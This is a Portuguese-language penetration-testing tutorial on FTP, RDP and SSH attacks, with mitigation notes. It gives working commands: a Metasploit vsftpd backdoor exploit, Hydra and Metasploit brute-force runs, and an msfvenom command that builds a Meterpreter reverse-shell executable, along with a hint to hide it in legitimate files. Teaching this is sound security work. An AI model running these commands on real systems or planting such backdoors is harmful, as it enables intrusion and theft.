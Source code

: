 # Exploração de Falhas em Sistemas

## Objetivo Geral

Aprender técnicas avançadas para explorar vulnerabilidades em sistemas, garantir acesso remoto e extrair dados sensíveis.

---

## Pré-requisitos

- Conhecimento em redes e protocolos (FTP, RDP, SSH).
- Familiaridade com Metasploit e linha de comando.

---

## Etapa 1: Explorando Falhas no FTP

### Vulnerabilidades Comuns

| Tipo de Ataque           | Descrição                         | Impacto                      |
| ------------------------ | --------------------------------- | ---------------------------- |
| **Autenticação Anônima** | Acesso sem credenciais válidas.   | Exposição de arquivos.       |
| **Directory Traversal**  | Acesso a diretórios fora do root. | Roubo de dados sensíveis.    |
| **Cross-site Scripting** | Injeção de scripts maliciosos.    | Comprometimento de clientes. |

### Ferramentas Recomendadas

- **Metasploit**:
  ```bash
  use exploit/unix/ftp/vsftpd_234_backdoor
  set RHOSTS <alvo>
  exploit
  ```
- **Nmap** para reconhecimento:
  ```bash
  nmap -p 21 --script ftp-anon <alvo>
  ```

---

## Etapa 2: Ataque DoS no RDP

### Técnicas de Ataque

- **Força Bruta**: Uso de ferramentas como `Hydra`:
  ```bash
  hydra -L usuarios.txt -P senhas.txt rdp://<alvo>
  ```
- **Exploração de Vulnerabilidades**:
  - CVE-2019-0708 (BlueKeep).

### Prevenção

- Habilitar **autenticação multifator**.
- Configurar **políticas de bloqueio** após tentativas falhas.
- Restringir acesso via **firewall**.

---

## Etapa 3: Explorando Falhas no SSH

### Ataque de Força Bruta

1. Gerar wordlists com `crunch`:
   ```bash
   crunch 6 8 0123456789 -o senhas.txt
   ```
2. Usar `Metasploit`:
   ```bash
   use auxiliary/scanner/ssh/ssh_login
   set RHOSTS <alvo>
   set USERPASS_FILE credenciais.txt
   run
   ```

### Mitigação

- Desativar login por senha (usar chaves SSH).
- Limitar tentativas com `fail2ban`.

---

## Etapa 4: Adicionando Backdoor em Executáveis

### Técnicas

1. **Criar backdoor com `msfvenom`**:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o app.exe
   ```
2. **Ocultação**:
   - Usar técnicas de _steganografia_ para embutir em arquivos legítimos.

### Detecção e Prevenção

- **Antivírus**: Soluções como Windows Defender ou ClamAV.
- **Análise estática**: Verificar hashes com `sha256sum`.

---

## Fluxo de Trabalho com Metasploit

### Módulos Principais

| Tipo        | Descrição                          | Exemplo                                   |
| ----------- | ---------------------------------- | ----------------------------------------- |
| **Singles** | Exploits autônomos.                | `exploit/windows/smb/ms17_010`            |
| **Stagers** | Estabelece conexão inicial.        | `payload/windows/meterpreter/reverse_tcp` |
| **Stages**  | Carrega funcionalidades avançadas. | `meterpreter`                             |

### Comandos Úteis

- Iniciar console: `msfconsole`.
- Buscar exploits: `search type:exploit platform:windows`.

---

## Boas Práticas de Segurança

- **Para Administradores**:
  - Atualizar sistemas regularmente.
  - Auditar permissões de serviços (FTP/SSH/RDP).
- **Para Pentesters**:
  - Documentar todas as etapas.
  - Usar ambientes controlados (ex: Metasploitable).

**Aviso Legal**: Estas técnicas devem ser aplicadas apenas em sistemas com autorização explícita.
